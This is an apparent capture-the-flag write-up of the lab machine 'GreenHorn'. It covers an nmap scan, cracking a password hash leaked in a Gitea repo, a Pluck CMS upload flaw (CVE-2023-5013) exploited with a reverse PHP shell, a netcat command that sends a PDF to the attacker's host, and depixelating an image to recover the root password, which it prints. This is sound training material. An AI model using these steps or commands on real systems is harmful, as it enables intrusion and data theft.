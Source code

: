 # NMAP

```shell
nmap -sC -sV -Pn -p- 10.10.11.25 -T5
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-23 16:39 EDT
Nmap scan report for 10.10.11.25
Host is up (0.055s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 57:d6:92:8a:72:44:84:17:29:eb:5c:c9:63:6a:fe:fd (ECDSA)
|_  256 40:ea:17:b1:b6:c5:3f:42:56:67:4a:3c:ee:75:23:2f (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://greenhorn.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
3000/tcp open  http    Golang net/http server
|_http-title: GreenHorn
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Content-Type: text/html; charset=utf-8
|     Set-Cookie: i_like_gitea=ff84cb7e0ef79a8e; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=zqYhoQggxIoXQeP3YKys8OVfYmU6MTc0NTQ0MDgxNjIzMTY4MzYwMA; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Wed, 23 Apr 2025 20:40:16 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-auto">
|     <head>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <title>GreenHorn</title>
|     <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR3JlZW5Ib3JuIiwic2hvcnRfbmFtZSI6IkdyZWVuSG9ybiIsInN0YXJ0X3VybCI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvIiwiaWNvbnMiOlt7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvYXNzZXRzL2ltZy9sb2dvLnBuZyIsInR5cGUiOiJpbWFnZS9wbmciLCJzaXplcyI6IjUxMng1MTIifSx7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvYX
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Allow: HEAD
|     Allow: HEAD
|     Allow: GET
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Set-Cookie: i_like_gitea=0a08b57a9973945f; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=97k3mDkdXv0AuVJ5u9Xirk78PY46MTc0NTQ0MDgxNjQ2NDMxMDc4MQ; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Wed, 23 Apr 2025 20:40:16 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.95%I=7%D=4/23%Time=6809502E%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(GetRequest,1000,"HTTP/1\.0\x20200\x20OK\r\nCache-Control:
SF:\x20max-age=0,\x20private,\x20must-revalidate,\x20no-transform\r\nConte
SF:nt-Type:\x20text/html;\x20charset=utf-8\r\nSet-Cookie:\x20i_like_gitea=
SF:ff84cb7e0ef79a8e;\x20Path=/;\x20HttpOnly;\x20SameSite=Lax\r\nSet-Cookie
SF::\x20_csrf=zqYhoQggxIoXQeP3YKys8OVfYmU6MTc0NTQ0MDgxNjIzMTY4MzYwMA;\x20P
SF:ath=/;\x20Max-Age=86400;\x20HttpOnly;\x20SameSite=Lax\r\nX-Frame-Option
SF:s:\x20SAMEORIGIN\r\nDate:\x20Wed,\x2023\x20Apr\x202025\x2020:40:16\x20G
SF:MT\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en-US\"\x20class=\"theme-
SF:auto\">\n<head>\n\t<meta\x20name=\"viewport\"\x20content=\"width=device
SF:-width,\x20initial-scale=1\">\n\t<title>GreenHorn</title>\n\t<link\x20r
SF:el=\"manifest\"\x20href=\"data:application/json;base64,eyJuYW1lIjoiR3Jl
SF:ZW5Ib3JuIiwic2hvcnRfbmFtZSI6IkdyZWVuSG9ybiIsInN0YXJ0X3VybCI6Imh0dHA6Ly9
SF:ncmVlbmhvcm4uaHRiOjMwMDAvIiwiaWNvbnMiOlt7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm
SF:4uaHRiOjMwMDAvYXNzZXRzL2ltZy9sb2dvLnBuZyIsInR5cGUiOiJpbWFnZS9wbmciLCJza
SF:XplcyI6IjUxMng1MTIifSx7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvYX")
SF:%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text
SF:/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20R
SF:equest")%r(HTTPOptions,1A4,"HTTP/1\.0\x20405\x20Method\x20Not\x20Allowe
SF:d\r\nAllow:\x20HEAD\r\nAllow:\x20HEAD\r\nAllow:\x20GET\r\nCache-Control
SF::\x20max-age=0,\x20private,\x20must-revalidate,\x20no-transform\r\nSet-
SF:Cookie:\x20i_like_gitea=0a08b57a9973945f;\x20Path=/;\x20HttpOnly;\x20Sa
SF:meSite=Lax\r\nSet-Cookie:\x20_csrf=97k3mDkdXv0AuVJ5u9Xirk78PY46MTc0NTQ0
SF:MDgxNjQ2NDMxMDc4MQ;\x20Path=/;\x20Max-Age=86400;\x20HttpOnly;\x20SameSi
SF:te=Lax\r\nX-Frame-Options:\x20SAMEORIGIN\r\nDate:\x20Wed,\x2023\x20Apr\
SF:x202025\x2020:40:16\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequ
SF:est,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/pla
SF:in;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Reque
SF:st");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 73.51 seconds
```

Add domain to the `/etc/hosts` file
``` bash
echo '10.10.11.25 greenhorn.htb' | sudo tee /etc/hosts
```
Opening the website and looking around we can see that it uses the `Pluck CMS` version `4.7.18`

![picture alt](assets/CMS.png)

Also we can see a Gitea instance running of port 3000. While checking the gitea instance we found that there is a public repo with a password hash

![picture alt](assets/gitea_pub.png)

We can find the password at `GreenHorn/data/settings/pass.php`
```php
<?php
$ww = 'd5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163';
?>
```

The cracked password is `iloveyou1`
# Foothold
## Vulnerability Search
Source  | Link
------------- | -------------
NIST  | https://nvd.nist.gov/vuln/detail/CVE-2023-5013
Exploit  | https://www.exploit-db.com/exploits/51592

To use this exploit we need to create a reverse php shell and zip it.



After uploading the shell.zip in the install module tab we get the reverse shell back.

![picture alt](assets/reverse_shell.png)


Looking around in the machine we can find the user `junior`. In his directory we can see the flag and a file name `Using OpenVAS.pdf`. Let' try to switch to that user using the cracked password.


Move the file over to our machine

```bash
cat 'Using OpenVAS.pdf' | nc 10.10.14.17 4445
```
Inside the pdf we find a pixelated password of the root user.

![picture alt](assets/pix_pass.png)

To reverse the pixelated image we can use the https://github.com/spipm/Depixelization_poc github.
```bash
python3 depix.py -p ../assets/pix_pass.png -s ./images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png -o ../assets/depix_pass.png
```

![picture alt](assets/depix_pass.png)

So the root password is `sidefromsidetheothersidesidefromsidetheotherside`


